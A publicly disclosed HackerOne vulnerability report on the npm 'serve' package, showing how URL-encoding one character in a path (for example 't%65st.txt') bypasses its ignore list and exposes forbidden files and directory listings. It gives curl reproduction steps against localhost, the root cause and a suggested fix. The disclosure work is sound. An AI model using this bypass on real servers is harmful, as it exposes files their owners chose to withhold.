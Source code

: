 # [serve] Directory listing and File access even when they have been set to be ignored.

## Report Details
- **Report ID**: 308721
- **URL**: https://hackerone.com/reports/308721
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-01-24T19:02:23.144Z
- **Disclosed**: 2018-03-13T06:53:14.242Z

## Reporter
- **Username**: 0xchr00t
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
**Module:** 
- **Name**: `serve`
- **Version**: latest (`6.4.9`)
- **Link**: https://www.npmjs.com/package/serve

**Description:**
The `serve` modules allows directory browsing and to serve static files through the browser.
The config option `ignore` can be used to tell the module which file or directory are forbidden and should not be served. 
This rule can be bypassed by url encoding the name of the file or directory that has been forbidden. 

## Reproduction Steps:
- Install `serve`
- Create an application that uses serve for file serving listing and set a few folders and files in the `ignore` config.

```javascript
const serve = require('serve')
const server = serve(__dirname, {
	  port: 1337,
	  ignore: ['testfolder', 'test.txt']
})
```
- Run the app

```bash
$ node filename.js
```
- Now, current directory will be served by `serve` with the exception of folder `testfolder` and file `test.txt`
- If we try to curl `test.txt` we get a `Not Found` error

```bash
$ curl http://localhost:1337/test.txt
Not Found
```
- The url encoded value for `e` is `%65`. So after replacing an `e` with its url encoded form, we are able to access the file.

```bash
$ curl http://localhost:1337/t%65st.txt
this is a forbidden file :D
```
- Additionally, curling the directory `testfolder` returns a 404 too.

```bash
$ curl http://localhost:1337/testfolder/
Not Found
```
- Applying the same strategy as above, we are able to get a listing of all the files and folders inside the restricted directory.

```html
$ curl http://localhost:1337/t%65stfolder/
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Files within testserve/testfolder/</title>
      .
      .
          <li>
            <a href="/testfolder/testfile.txt" title="testfile.txt" class="txt">testfile.txt</a>
            <i>31 B</i>
          </li>
      .
      .
```
- And then we can further access the files inside the forbidden folder using same strategy.

```bash
$ curl http://localhost:1337/t%65stfolder/testfile.txt
this is a test ... forbidden !
```


## Mitigation Strategy
From what I could gather, this is happening because the path variable that is being checked against the user created forbidden folders blacklist, is essentially different from the one which is being used to serve the file/folder. 
Note these particular lines in file `/lib/server.js`-

```javascript
90  const ignored = !ignoredFiles.every(item => {
91    return !pathname.includes(item)
92  })
```
Line `91` handles the logic for checking if one of the ignored folder/file names is present in the current requested path. Note that here, the variable `pathname` is used. This variable is not url decoded, while the variable which is used to actually serve the file is named `related` and is url decoded by passing requested path through `decodeURIComponent` function.
So one strategy would be to use the `related` variable for checking against the blacklist too.

## Impact

The issue essentially bypasses the `ignore files/folders` feature and allows an attacker to read from a directory/file that the victim has not allowed access to.

## Attachments
No attachments
